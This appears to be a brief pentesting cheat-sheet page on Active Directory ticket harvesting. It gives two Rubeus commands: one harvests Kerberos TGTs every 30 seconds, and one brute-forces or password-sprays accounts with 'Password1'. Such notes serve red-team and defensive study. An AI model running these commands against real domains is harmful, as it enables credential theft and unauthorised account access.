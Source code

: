 ```yaml
---
title: "Ticket Harvesting"
description: "Ticket harvesting using Rubeus."
lead: "How to perform ticket harvesting using Rubeus."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "lateral_movement"
weight: 50
toc: true
---
```


## Harvesting Tickets

```powershell
# Harvest for TGTs every 30 seconds
Rubeus.exe harvest /interval:30
```

## Brute-forcing / Password-spraying

```powershell
Rubeus.exe brute /password:Password1 /noticket
```
